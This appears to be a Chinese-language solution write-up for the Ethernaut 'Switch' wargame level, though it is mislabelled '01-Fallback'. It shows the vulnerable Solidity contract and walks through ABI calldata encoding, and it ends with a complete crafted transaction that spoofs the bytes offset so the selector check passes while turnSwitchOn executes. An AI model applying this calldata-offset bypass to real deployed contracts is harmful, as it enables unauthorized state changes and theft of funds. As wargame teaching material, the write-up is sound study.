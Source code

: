 # Ethernaut 01-Fallback

## 本关目标

- switchOn=true

## 合约分析

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Switch {
    bool public switchOn; // switch is off
    bytes4 public offSelector = bytes4(keccak256("turnSwitchOff()")); // trunSwitchOff的函数选择器

    // 只有当前合约才可以
     modifier onlyThis() {
        require(msg.sender == address(this), "Only the contract can call this");
        _;
    }

    // 调用的方法必须是turnSwitchOff()
    modifier onlyOff() {
        // we use a complex data type to put in memory
        bytes32[1] memory selector;
        // check that the calldata at position 68 (location of _data)
        assembly {
            calldatacopy(selector, 68, 4) // grab function selector from calldata
        }
        require(
            selector[0] == offSelector,
            "Can only call the turnOffSwitch function"
        );
        _;
    }

    // 翻转switch, 使用data去调用其他方法，但是会检查调用的是不是turnSwitchOff
    function flipSwitch(bytes memory _data) public onlyOff {
        (bool success, ) = address(this).call(_data);
        require(success, "call failed :(");
    }

    // 以下两个函数表明，它们只能被这个合约调用
    function turnSwitchOn() public onlyThis {
        switchOn = true;
    }

    function turnSwitchOff() public onlyThis {
        switchOn = false;
    }

}
```

## 解决方案

1. 在这个合约中我们唯一可以用的方法就是 flipSwitch(bytes memory \_data)，但是这个方法被限制理论上只能调用 turnSwitchOff()
2. 获取一下 turnSwitchOff 的函数选择器是多少：web3.eth.encodeFunctionSignature("turnSwitchOff()")--》'0x20606e15'
3. 获取一下我们要实际调用的 trunSwitchOn 的函数选择器是多少：web3.eth.abi.encodeFunctionSignature("turnSwitchOn()")--》'0x76227e12'
4. 正常调用 flipSwitch(offSelector)对应的 data 是：

```solidity
web3.eth.abi.encodeFunctionCall({
  name: 'flipSwitch',
  type: 'function',
  inputs: [{ type: 'bytes', name: '_data' }]
}, ['0x20606e15']);
```

- 0x
  30c13ade --> flipSwitch 函数选择器 4bytes  
  0000000000000000000000000000000000000000000000000000000000000020 --> 偏移量 32bytes  
  0000000000000000000000000000000000000000000000000000000000000004 --> 数据长度 4bytes
  20606e1500000000000000000000000000000000000000000000000000000000 --> Data turnSwitchOff 的函数选择器
- 因此在 onlyOff()中提取 turnSwitchOff 的函数选择器设置 offset 为 68（4+32+32）

5. 可以通过修改偏移量来保证通过 68bytes 取到 turnSwitchOff 的函数选择器，但是真实 Data 为 turnSwitchOn 函数选择器

- 0x
  30c13ade --> flipSwitch 函数选择器 4bytes  
  0000000000000000000000000000000000000000000000000000000000000060 --> 偏移量 96bytes（turnSwitchOn 在 96bytes 后)  
  0000000000000000000000000000000000000000000000000000000000000000 --> 凑数
  20606e1500000000000000000000000000000000000000000000000000000000 --> Data turnSwitchOff 的函数选择器(68 偏移量规避检查)  
  0000000000000000000000000000000000000000000000000000000000000004 --> 数据长度 4bytes  
  76227e1200000000000000000000000000000000000000000000000000000000 --> 真实数据为 turnSwitchOn 选择器被执行

6. await sendTransaction({from: player, to: contract.address, data: '0x30c13ade0000000000000000000000000000000000000000000000000000000000000060000000000000000000000000000000000000000000000000000000000000000020606e1500000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000476227e1200000000000000000000000000000000000000000000000000000000'})
7. await contract.switchOn()--> true
